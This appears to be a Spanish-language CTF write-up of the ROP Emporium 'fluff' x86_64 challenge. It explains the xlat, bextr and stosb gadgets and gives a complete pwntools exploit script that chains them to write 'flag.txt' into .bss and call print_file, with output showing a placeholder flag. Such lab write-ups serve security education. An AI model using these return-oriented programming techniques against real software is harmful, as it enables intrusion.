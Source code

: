 Este ejercicio es prácticamente igual que [write4](https://ub1cu0.gitbook.io/pwn-writeups/ropemporium/4.-write4-x86_64) pero con una diferencia. La diferencia es que no tenemos ningún rop que haga un `mov DWORD ptr` con lo cual no podemos guardar `flag.txt` en el `.bss`. Como hacemos entonces? pues si miramos las funciones del binario vamos a poder ver lo siguiente:

```c
0000000000400628 <questionableGadgets>:
  400628:  d7                    xlat   BYTE PTR ds:[rbx]
  400629:  c3                    ret
  40062a:  5a                    pop    rdx
  40062b:  59                    pop    rcx
  40062c:  48 81 c1 f2 3e 00 00  add    rcx,0x3ef2
  400633:  c4 e2 e8 f7 d9        bextr  rbx,rcx,rdx
  400638:  c3                    ret
  400639:  aa                    stos   BYTE PTR es:[rdi],al
  40063a:  c3                    ret
  40063b:  0f 1f 44 00 00        nop    DWORD PTR [rax+rax*1+0x0]
```

Usando únicamente lo que hay en esta función podemos conseguir mandar al segmento de memoria `.bss` el string `flag.txt` de la siguiente manera:

Vamos a centrarnos en los 3 gadgets que nos van a hacer falta:

```c
400628:  d7                    xlat   BYTE PTR ds:[rbx]
. . .
400633:  c4 e2 e8 f7 d9        bextr  rbx,rcx,rdx
. . .
400639:  aa                    stos   BYTE PTR es:[rdi],al
```

Que es cada uno?

* `xlat`: Usa `AL` como índice usando como base `RBX` y guarda el resultado en `AL`, es decir: `AL = RBX[AL]`
* `stosb` escribe `AL` en `RDI` y luego incrementa `RDI`
* `bextr rbx, rcx, rdx`: Extrae una cantidad de bits de `RCX` a `RBX` usando `RDX` para indicar los bits y en que bits empieza.

Como lo usaríamos y en que orden? Este sería la manera en la que manipulariamos estos gadgets:

```c
1. Con bextr guardamos flag.txt en el rbp bit a bit
2. Con xlat y stosb pasamos flag.txt: RBX --> AL --> RDI
```

Vamos a necesitar como datos los siguientes:

```python
bss = exe.bss() # Primera dirección del BSS (asumimos que está vacío)
xlat = exe.symbols['questionableGadgets'] # Dirección a la función questionableGadgets
pop_rdx_rcx_add_bextr = 0x40062a # pop rdx; pop rcx; add rcx, 0x3ef2; bextr  rbx,rcx,rdx; ret
stos = 0x400639 # stos   BYTE PTR es:[rdi],al; ret
pop_rdi = 0x004006a3 # pop rdi; ret
print_file = exe.plt['print_file'] #Dirección de la función print_file en la  plt
al_antiguo = 0xb # Antes de llegar a nuestro rop el programa tiene esto en al. Se puede ver en GDB
blob = read(exe.path) # Con esto blob contiene todos los datos del binario y puede buscar caracteres en él.
flag = b'flag.txt'
```

Ahora que tenemos todos los datos podemos pasar al solve:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("fluff")
libc = ELF("libfluff.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    offset = 40  # hasta rip

    bss = exe.bss()
    xlat = exe.symbols['questionableGadgets']
    pop_rdx_rcx_add_bextr = 0x40062a
    stos = 0x400639
    pop_rdi = 0x004006a3
    print_file = exe.plt['print_file']

    al_antiguo = 0xb  # esto es lo que ya hay en al antes de llegar a nuestro rop
    blob = read(exe.path)
    flag = b'flag.txt'

    chain = b""

    for a, b in enumerate(flag):
        idx = blob.find(bytes([b]))
        assert idx != -1, log.failure(f"No hay ese char")
        
        # hay que restar lo que ya había en AL y el +0x3ef2 que mete el gadget
        rcx_val = exe.address + idx - al_antiguo - 0x3ef2

        chain += flat(
            pop_rdx_rcx_add_bextr,
            0x4000,         # rdx random grande para que copie todo
            rcx_val,        # rcx calculado
            xlat,           # mete el char en AL
            pop_rdi, bss + a,
            stos            # escribe el char en .bss
        )
        
        # ahora AL vale el último char que pillamos, hay que guardarlo para la siguiente vuelta
        al_antiguo = b

    # llamar a print_file con la dirección donde metimos flag.txt
    chain += flat(pop_rdi, bss, print_file)

    payload = flat(
        b"A" * offset,
        chain
    )

    io.sendlineafter(b'> ', payload)
    io.interactive()

if __name__ == "__main__":
    main()

```

```python
[*] Switching to interactive mode
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona!
